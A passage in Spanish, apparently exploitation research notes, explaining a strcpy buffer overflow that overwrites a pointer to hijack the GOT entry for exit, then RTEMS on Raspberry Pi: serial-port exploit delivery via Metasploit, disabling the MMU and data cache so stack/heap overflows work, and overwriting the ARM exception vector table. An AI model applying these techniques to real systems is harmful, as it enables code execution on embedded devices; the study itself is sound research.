        strcpy(buf,argc[1]);
        for (;*pbuf++=*(argc[2]++););
        exit(1);
    }

Sobreescribiendo el contenido de ``pbuf`` al llamar a ``strcpy(buf,argc[1])`` se hace que apunte a la posición en la tabla GOT correspondiente a la función ``exit``. Observando el código ensamblador ``pbuf`` se encuentra justo despuès de ``buf`` por lo que la lógica será muy similar a los ejemplos anteriores.

Se carga el *payload* en ``buf`` y se completa el padding hasta los 256 bytes y luego se sobreescribe ``pbuf`` con la dirección de la GOT para ``exit``:

.. code-block:: c

    0x10704 <_GLOBAL_OFFSET_TABLE_+32>:     0x00008380

Que en este caso apunta a la propia PLT porque la función es llamada por primera vez y tiene que resolver el nombre. Como segundo parámetro de ``main`` se pasa la dirección del *buffer* a donde debe saltar PC. Como antes ``execve`` no funciona en GDB pero corriendo la aplicación sola con el ``printf`` para saber la dirección del *buffer* (que no es la misma que se ve cuando se ejecuta con GDB) puede probarse que el exploit funciona.

RTEMS
=====

Aquí se describen aspectos de explotación básicos en RTEMS. Inicialmente se trató de trabajar sobre una versión emulada de RTEMS sobre ARM pero resultó más sencillo cargarlo en un hardware real, la Raspberry Pi (RPi).

Los dos vectores de ataque hasta ahora investigados son el clásico *stack/heap overflow* y corrupción del vector de instrucciones.

Comunicación serie
------------------

El port de RTEMS para RPi solo tiene por ahora la consola serie (UART), por ende todas las explotaciones remotas (desarrolladas en Ruby ahora que se trabaja con el Metasploit Framework) deben poder utilizar el puerto serie. Para esto se utilizó la herramienta SerialPort:

* http://playground.arduino.cc/interfacing/ruby

En Ubuntu se la instala como

.. code-block:: bash

  sudo apt-get install ruby-serialport

*Stack/Heap overflow*: MMU y cache
----------------------------------

Al probar *stack* y *heap overflows* en este escenario falla por un problema con la cache de datos. El RPi habilita la MMU y el cache de datos (deshabilitados por defecto y que la mayoria de los BSP de ARM no habilitan) en el archivo ``bspstarthooks.c`` en la función ``bsp_start_hook_1``, al llamar a ``bsp_memory_management_initialize``. Por ahora se comenta esta función, el encargado el port a RPi (Alan Cudmore) dijo que no debería hacer falta más que eso para dejar deshabilitada la MMU.

.. code-block:: c

  void BSP_START_TEXT_SECTION bsp_start_hook_1(void)
  {
    bsp_start_copy_sections();
  //  bsp_memory_management_initialize();
    bsp_start_clear_bss();
  }

Se comprobó que la MMU quedaba deshabilitada con el comando:

.. code-block:: c

  __asm__ volatile (
      "MOV    r0, #0\n" //; Clear r0
      "MRC  p15, 0, r0, c1, c0, 0\n"  // ; Load Control Register
  );

Revisando el bit 0 (M) de R0, que estaba apagado, se confirmó según la documentación de ARM que la MMU no está funcionando.

También se comprobó que el problema estaba particularmente en la cache de datos al hacer un *Clean Entire Data Cache* con el comando:

.. code-block:: c

  __asm__ volatile (
      "MOV    r0, #0\n" //; Clear r0
      "MCR  p15, 0, r0, c7, c10, 0\n"  // ; Clean Entire Data Cache
  ::: "r0");

Aunque tampoco se pudo determinar exactamente cuál es la causa del problema, parecería haber una interferencia entre la cache de datos donde se escribe el *stack/heap*, y la cache de instrucciones que lee esa misma sección de memoria para interpretarla como instrucciones.

Corrupción del vector de interrupciones
---------------------------------------

Se estudió el tutorial:

http://doar-e.github.io/blog/2014/04/30/corrupting-arm-evt/

Se confirmó mediante pruebas básicas que se podía sobreescribir este vector sin problemas haciendo que interrupciones particulares sean dirigidos a direcciones de memoria con código inyectado por el atacante.
